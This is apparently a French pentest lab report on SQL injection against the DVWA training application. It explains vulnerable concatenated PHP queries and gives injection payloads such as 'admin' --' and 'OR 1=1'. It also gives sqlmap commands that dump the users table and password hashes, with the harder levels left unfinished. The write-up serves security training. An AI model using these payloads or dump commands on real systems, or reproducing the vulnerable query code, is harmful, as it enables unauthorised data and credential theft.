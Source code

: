 # 1. SQL Injection

Une injection SQL (SQL Injection) est une faille de sécurité exploitée par un attaquant pour exécuter des commandes SQL malveillantes sur une base de données. Elle se produit lorsque des entrées utilisateur ne sont pas correctement validées ou filtrées avant d’être intégrées à une requête SQL. Cela peut permettre à un attaquant de manipuler les requêtes SQL de l'application, exposant ainsi des données sensibles ou compromettant le système.

Imaginons un bloc de code vulnérable tout simple :

```php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password';";
$result = mysqli_query($conn, $query);
```

Le script ci-dessus va utiliser l'input de l'utilisateur et va le concaténer avec le reste de la commande SQL. Cependant, il n'y a aucun filtre.

Ainsi, prenons un exemple d'attaque où l'attaquant entre comme nom d'utilisateur `admin' --`  
La requête devient alors :

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '';
```

La partie `-- ' AND password = '';` est commentée, et la commande restante n'est donc plus que `SELECT * FROM users WHERE username = 'admin'`. Cela accordera donc l'accès à l'utilisateur.

---

## 1.1 Premier niveau - low

On a une page avec la possibilité d'entrer un ID d'utilisateur :
![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\1.png?msec=1736351099591)  
Cela nous renvoie l'utilisateur sans le mot de passe.

Nous essayons une simple injection :

```sql
admin' OR '1'='1
```

C'est quasiment le même exemple que cité auparavant sauf que l'on rajoute une condition `OR '1'='1` qui est toujours vraie. Cela permet d'afficher tous les utilisateurs puisque la condition est toujours satisfaite.

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\2.png?msec=1736351099592)

### Utilisation de sqlmap

Nous utilisons l'outil `sqlmap` pour scanner le formulaire et voir ce qu'il trouve.  
Voici une commande simple :

```bash
sqlmap -u "http://dvwa.lan/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdngv7nmb11ksskl0ukjj69d46; security=low"
```

On note qu'il y a le cookie de session, ce qui est important pour éviter d'être redirigé vers `login.php`.

Le résultat indique que la page est vulnérable à plusieurs types d'injections :  
![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\3.png?msec=1736351099598)

Par exemple :

- **Boolean-based blind** : Ajoute une condition booléenne pour observer les variations de la page.
- **Error-based** : Exploite les messages d'erreur retournés par le serveur.
- **UNION query** : Concatène une requête injectée via l'opération UNION.
- **Time-based blind** : Modifie la durée d'exécution de la requête SQL.

Une commande plus avancée nous permet de récupérer davantage d'informations sur la base de données :

```bash
sqlmap -u "http://dvwa.lan/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdngv7nmb11ksskl0ukjj69d46; security=low" --banner --current-user --current-db --is-dba --tables --columns --dump --fresh-queries
```

Cela permet d'afficher :

- `--banner` : Version de la base de données.
- `--current-user` : Utilisateur courant.
- `--current-db` : Base de données courante.
- `--is-dba` : Si l'utilisateur est admin.
- `--tables` : Liste des tables.
- `--columns` : Liste des colonnes.
- `--dump` : Contenu des tables/colonnes.

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\4.png?msec=1736351099593)

En affinant avec :

```bash
sqlmap -u "http://dvwa.lan/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdngv7nmb11ksskl0ukjj69d46; security=low" --tables --columns --dump -T users -D dvwa
```

Nous récupérons les utilisateurs et les mots de passe hashés :

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\5.png?msec=1736351099594)

---

## 1.2 Deuxième niveau - medium

La principale différence est que la requête est en `POST` et non dans l'URL.

Nous combinons l'utilisation de `Burp Suite` et `sqlmap` :

1. Intercepter la requête avec Burp Suite :
   ![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\6.png?msec=1736351099595)

2. Sauvegarder la requête dans un fichier texte (`info.txt`).

3. Utiliser `sqlmap` avec la commande :

```bash
sqlmap -r info.txt -p id
```

![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\7.png?msec=1736351099595)

En affinant avec :

```bash
sqlmap -r info.txt -p id --tables --columns --dump -T users -D dvwa
```

Nous récupérons à nouveau les identifiants :
![images](file://C:\Users\Sacha\Desktop\pentest_dvwa\rapport_dvwa\images\sql\8.png?msec=1736351099596)

### Analyse du code PHP

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
}
?>
```

**Progrès** : Utilisation de `mysqli_real_escape_string()` pour limiter les injections basiques, mais la requête reste vulnérable en raison de l'injection possible avec des entiers ou des types inattendus.

---

## 1.3 Troisième niveau - hard

(À compléter)

---

## 1.4 Niveau impossible

(À compléter)
